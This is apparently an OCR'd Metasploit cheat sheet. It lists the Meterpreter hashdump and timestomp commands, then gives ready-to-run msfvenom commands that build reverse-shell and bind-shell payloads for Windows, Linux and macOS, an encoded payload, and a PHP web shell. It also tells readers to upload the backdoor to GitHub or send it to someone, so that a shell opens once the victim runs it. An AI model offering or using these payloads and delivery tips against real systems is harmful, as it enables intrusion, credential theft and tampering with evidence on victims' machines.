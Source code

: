     Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes

Creating an executable backdoor with Metasploit:
	"msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.3.141 LPORT=4444 -f exe -o payload.exe"
The backdoor.exe file is saved in the path where you executed the command. Upload this file to GitHub or send it to someone, once they open it, your meterpreter session will start

LHOST= Your IP
RHOST= Target IP

List payloads:
	"msfvenom -l"

Linux Meterpreter Reverse Shell:
	"msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf"

Linux Bind Meterpreter Shell:
	"msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf"

Linux Bind Shell:
	"msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf"

Windows Meterpreter Reverse TCP Shell:
	"msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe"

Windows Reverse TCP Shell:
	"msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe"

Windows Encoded Meterpreter Windows Reverse Shell:
	"msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe"

Mac Reverse Shell:
	"msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho"

Mac Bind Shell:
	"msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho"

Web Payloads:

PHP Meterpreter Reverse TCP
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
	cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
